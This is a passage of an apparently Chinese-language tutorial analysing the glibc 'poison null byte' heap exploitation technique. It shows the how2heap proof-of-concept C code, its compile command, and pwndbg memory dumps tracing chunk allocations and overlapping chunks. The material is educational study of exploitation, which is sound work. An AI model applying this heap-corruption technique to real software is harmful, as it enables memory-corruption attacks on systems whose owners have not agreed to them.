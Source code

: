 ```c
	
	printf("Now 'd' and 'b2' overlap.\n");
	memset(d,'D',0xc00);

	printf("New b2 content:\n%s\n",b2);

	printf("Thanks to https://www.contextis.com/resources/white-papers/glibc-adventures-the-forgotten-chunks"
		"for the clear explanation of this technique.\n");

	assert(strstr(b2, "DDDDDDDDDDDD"));
}
```

> 编译命令：gcc -g poison_null_byte.c -o poison_null_byte
>

## POC分析
```c
	printf("We allocate 0x500 bytes for 'a'.\n");
	a = (uint8_t*) malloc(0x500);
	printf("a: %p\n", a);
	int real_a_size = malloc_usable_size(a);
	printf("Since we want to overflow 'a', we need to know the 'real' size of 'a' "
		"(it may be more than 0x500 because of rounding): %#x\n", real_a_size);
```

编译之后对POC源码的36行下断点然后开始调试，程序会执行完上述代码，结果如下：

```c
pwndbg> x/250gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
......
0x555555757250:	0x0000000000000000	0x0000000000000511 #a(malloc)
......
0x555555757760:	0x0000000000000000	0x00000000000208a1 #top_chunk
......
0x5555557577c0:	0x0000000000000000	0x0000000000000000
pwndbg> p/x malloc_usable_size(a)  //malloc使用的大小
$2 = 0x508
pwndbg> p/x real_a_size 
$3 = 0x508
pwndbg> 
```

> malloc_usable_size(a)  //malloc使用的大小
>
> 这里不探讨这个函数，感兴趣可以在malloc.c中找到其源码
>

这里调用malloc创建了对齐后大小为0x511的堆块，接下来执行下述代码(b 47->c)：

```c
	b = (uint8_t*) malloc(0xa00);

	printf("b: %p\n", b);

	c = (uint8_t*) malloc(0x500);
	printf("c: %p\n", c);

	barrier =  malloc(0x100);
	printf("We allocate a barrier at %p, so that c is not consolidated with the top-chunk when freed.\n"
		"The barrier is not strictly necessary, but makes things less confusing\n", barrier);
	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
```
